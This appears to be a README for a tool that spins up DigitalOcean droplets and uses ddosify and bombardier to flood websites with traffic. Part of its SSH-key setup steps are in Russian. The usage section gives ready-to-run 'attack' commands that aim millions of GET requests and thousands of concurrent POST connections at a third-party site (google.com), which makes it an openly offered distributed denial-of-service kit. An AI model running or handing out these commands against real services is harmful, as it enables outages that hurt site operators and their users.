 ## Usage


````
npm run create -- -c 2
````
Creates 2 new droplets in Digital Ocean, installs ddosify. See `constants.js`. Edit `constants.js` to change `CPU` & `REGION`.

````
npm run attack -- "ddosify -t 'https://google.com' -n $((10000 * 333)) -d 10000 -T 999 -m GET"
````

````
npm run attack -- "bombardier -c 6000 -d 1800s -m POST -H 'Content-Type: application/x-www-form-urlencoded' -l https://google.com"
````

````
npm run cleanup
````

Destroys all droplets. Do this before going to sleep. Save money.

## Installation

1. Install Node.js

2. Download code from GitHub

3. Run
```` 
  npm install
````

4. Create an empty file with name `.env` in the root folder.

6. Register at DigitalOcean, create one server (droplet) manually, use ssh key access.

Droplet to choose: (will handle ±1000 requests per seconds via ddosify)
* Ubuntu
* Basic
* 12$/month
* Authentication - SSH key

Как создать новый SSH key (DO_API_SSH_KEY_ID):
  * (PS в появившимся окне справа инструкция. если кратко - то запустить консоль cmd и команду ssh-keygen)
  * из сформированного файла .pub скопировать содерждимое в поле SSH key content
  * указать имя, например f1

Для того чтобы SSH_ID впилить в солюшин - нужно в браузере нажать правой кнопке на подключенном SSH digitalocean и из лейбла взять часть которая состоит из цифр
(Например <label for="sshKey_33402836">d3</label>, SSH_ID = 33402836)

7. Generate DO_API_KEY via https://cloud.digitalocean.com/account/api/tokens

8. Edit `.env`

````
DO_API_KEY=<INSERT DIGITAL OCEAN API KEY>
DO_API_SSH_KEY_ID=<INSERT DIGITAL OCEAN SSH KEY ID>
````

You're done.


# Known issues

- `npm run attack` will fail if the `npm run create` is in progress.

- Error:
````
FATAL: 1.1.1.1
Error: Timed out while waiting for handshake
````
Quick solution: destroy server with this IP on Digital Ocean.

